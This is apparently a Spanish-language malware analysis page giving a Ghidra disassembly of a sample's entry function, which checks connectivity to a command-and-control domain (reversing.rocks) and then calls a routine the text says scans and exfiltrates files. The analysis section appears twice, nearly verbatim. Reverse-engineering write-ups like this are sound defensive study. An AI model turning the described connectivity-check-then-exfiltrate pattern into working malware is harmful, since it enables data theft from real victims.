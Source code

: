 ```

                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __stdcall FUN_004011a0(void)
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
                             FUN_004011a0                                    XREF[1]:     ___tmainCRTStartup:004013c5(c)
        004011a0 6a 00           PUSH       0x0
        004011a2 6a 01           PUSH       0x1
        004011a4 68 2c 21        PUSH       s_http://reversing.rocks/_0040212c               = "http://reversing.rocks/"
                 40 00
        004011a9 ff 15 ac        CALL       dword ptr [->WININET.DLL::InternetCheckConnect   = 0000239e
                 20 40 00
        004011af 85 c0           TEST       EAX,EAX
        004011b1 74 0d           JZ         LAB_004011c0
        004011b3 e8 78 ff        CALL       FUN_00401130                                     undefined4 FUN_00401130(void)
                 ff ff
        004011b8 6a 00           PUSH       0x0
        004011ba ff 15 34        CALL       dword ptr [->MSVCR120.DLL::exit]                 = 000023fe
                 20 40 00
                             -- Flow Override: CALL_RETURN (COMPUTED_CALL_TERMINATOR)
                             LAB_004011c0                                    XREF[1]:     004011b1(j)
        004011c0 6a 01           PUSH       0x1
        004011c2 ff 15 34        CALL       dword ptr [->MSVCR120.DLL::exit]                 = 000023fe
                 20 40 00
                             -- Flow Override: CALL_RETURN (COMPUTED_CALL_TERMINATOR)
             assume FS_OFFSET = <UNKNOWN>
        004011c8 cc              ??         CCh
             assume FS_OFFSET = 0xffdff000
                             LAB_004011c9                                    XREF[1]:     004020d4(*)
        004011c9 b8 4d 5a        MOV        EAX,0x5a4d
                 00 00
        004011ce 66 39 05        CMP        word ptr [IMAGE_DOS_HEADER_00400000],AX
                 00 00 40 00
        004011d5 74 04           JZ         LAB_004011db
                             LAB_004011d7                                    XREF[2]:     004011eb(j), 004011f9(j)
        004011d7 33 c0           XOR        EAX,EAX
        004011d9 eb 34           JMP        LAB_0040120f
                             LAB_004011db                                    XREF[1]:     004011d5(j)
        004011db 8b 0d 3c        MOV        ECX,dword ptr [IMAGE_DOS_HEADER_00400000.e_lfa
                 00 40 00
        004011e1 81 b9 00        CMP        dword ptr [ECX + 0x400000]=>IMAGE_NT_HEADERS32
                 00 40 00
                 50 45 00 00
        004011eb 75 ea           JNZ        LAB_004011d7
        004011ed b8 0b 01        MOV        EAX,0x10b
                 00 00
        004011f2 66 39 81        CMP        word ptr [ECX + 0x400018]=>IMAGE_NT_HEADERS32_
                 18 00 40 00
        004011f9 75 dc           JNZ        LAB_004011d7
        004011fb 33 c0           XOR        EAX,EAX
        004011fd 83 b9 74        CMP        dword ptr [ECX + 0x400074]=>IMAGE_NT_HEADERS32
                 00 40 00 0e
        00401204 76 09           JBE        LAB_0040120f
        00401206 39 81 e8        CMP        dword ptr [ECX + 0x4000e8]=>IMAGE_NT_HEADERS32
                 00 40 00
        0040120c 0f 95 c0        SETNZ      AL
                             LAB_0040120f                                    XREF[2]:     004011d9(j), 00401204(j)
        0040120f 6a 01           PUSH       0x1
        00401211 a3 30 30        MOV        [DAT_00403030],EAX
                 40 00
        00401216 ff 15 44        CALL       dword ptr [->MSVCR120.DLL::__set_app_type]       = 00002440
                 20 40 00
        0040121c 59              POP        ECX
        0040121d 6a ff           PUSH       -0x1
        0040121f ff 15 24        CALL       dword ptr [->KERNEL32.DLL::EncodePointer]        = 000025be
                 20 40 00
        00401225 8b 0d 64        MOV        ECX,dword ptr [->MSVCR120.DLL::_fmode]           = 000024b4
                 20 40 00
        0040122b a3 80 33        MOV        [DAT_00403380],EAX
                 40 00
        00401230 a3 84 33        MOV        [DAT_00403384],EAX
                 40 00
        00401235 a1 54 30        MOV        EAX,[DAT_00403054]
                 40 00
        0040123a 89 01           MOV        dword ptr [ECX],EAX
        0040123c 8b 0d 68        MOV        ECX,dword ptr [->MSVCR120.DLL::_commode]         = 000024be
                 20 40 00
        00401242 a1 48 30        MOV        EAX,[DAT_00403048]
                 40 00
        00401247 89 01           MOV        dword ptr [ECX],EAX
        00401249 e8 29 05        CALL       FUN_00401777                                     undefined FUN_00401777(void)
                 00 00
        0040124e e8 45 02        CALL       FUN_00401498                                     undefined4 FUN_00401498(void)
                 00 00
        00401253 83 3d 00        CMP        dword ptr [DAT_00403000],0x0                     = 00000001h
                 30 40 00 00
        0040125a 75 0c           JNZ        LAB_00401268
        0040125c 68 98 14        PUSH       FUN_00401498
                 40 00
        00401261 ff 15 54        CALL       dword ptr [->MSVCR120.DLL::__setusermatherr]     = 0000247a
                 20 40 00
        00401267 59              POP        ECX
                             LAB_00401268                                    XREF[1]:     0040125a(j)
        00401268 e8 4a 05        CALL       FUN_004017b7                                     undefined FUN_004017b7(void)
                 00 00
        0040126d 83 3d 10        CMP        dword ptr [DAT_00403010],-0x1                    = FFFFFFFEh
                 30 40 00 ff
        00401274 75 09           JNZ        LAB_0040127f
        00401276 6a ff           PUSH       -0x1
        00401278 ff 15 50        CALL       dword ptr [->MSVCR120.DLL::_configthreadlocale]  = 00002464
                 20 40 00
        0040127e 59              POP        ECX
                             LAB_0040127f                                    XREF[1]:     00401274(j)
        0040127f 33 c0           XOR        EAX,EAX
        00401281 c3              RET
        00401282 68              ??         68h    h
        00401283 97              ??         97h                                              ?  ->  00401797
        00401284 17              ??         17h
        00401285 40              ??         40h    @
        00401286 00              ??         00h
        00401287 e8              ??         E8h
        00401288 d6              ??         D6h
        00401289 04              ??         04h
        0040128a 00              ??         00h
        0040128b 00              ??         00h
        0040128c a1              ??         A1h
        0040128d 50              ??         50h    P                                         ?  ->  00403050

```

La función FUN_004011a0 es el punto de entrada principal del malware, referenciada desde ___tmainCRTStartup. Su función es comprobar la conectividad a internet y ejecutar la lógica maliciosa principal si la conexión con el C2 (Command & Control) está activa.


### 🧠 RESUMEN DEL COMPORTAMIENTO
1️⃣	Comprueba si hay conexión con http://reversing.rocks/ usando InternetCheckConnectionA.  
2️⃣	Si hay conexión, llama a FUN_00401130 (que inicializa WinINet y lanza la exfiltración de datos).  
3️⃣	Si no hay conexión, termina el proceso con exit(1).  

## ANÁLISIS DETALLADO
###🔹 1. Comprobación de conexión a Internet
```
004011a4 PUSH s_http://reversing.rocks
004011a9 CALL [InternetCheckConnectionA]
004011af TEST EAX,EAX
004011b1 JZ LAB_004011c0
```
- Usa InternetCheckConnectionA para comprobar si el dominio C2 (reversing.rocks) es accesible.
- Si no hay conexión (EAX = 0), salta a exit(1).

### 🔹 2. Ejecución del payload si hay conexión
```
004011b3 CALL FUN_00401130
```
Ya analizamos, esta función [FUN_00401130](FUN_00401130.md):  
- Llama a InternetOpenA, InternetConnectA  
- Inicia comunicación con el servidor remoto  
- Llama a FUN_00401000 → escaneo y exfiltración de archivos [FUN_00401000](FUN_00401000.md)  

###🔹 3. Finalización del proceso
```
004011ba CALL [exit]
```
- Llama a exit(0) si tuvo éxito
- O a exit(1) si falló
    
## 🔍 ANÁLISIS DETALLADO
###🔹 1. Comprobación de conexión a Internet
```
004011a4 PUSH s_http://reversing.rocks
004011a9 CALL [InternetCheckConnectionA]
004011af TEST EAX,EAX
004011b1 JZ LAB_004011c0
```
- Usa InternetCheckConnectionA para comprobar si el dominio C2 (reversing.rocks) es accesible.
- Si no hay conexión (EAX = 0), salta a exit(1).

###🔹 2. Ejecución del payload si hay conexión
```
004011b3 CALL FUN_00401130
```
- Llama a InternetOpenA, InternetConnectA
- Inicia comunicación con el servidor remoto
- Llama a FUN_00401000 → escaneo y exfiltración de archivos [FUN_00401000](FUN_00401000.md) 

###🔹 3. Finalización del proceso
```
004011ba CALL [exit]
```
- Llama a exit(0) si tuvo éxito
- O a exit(1) si falló
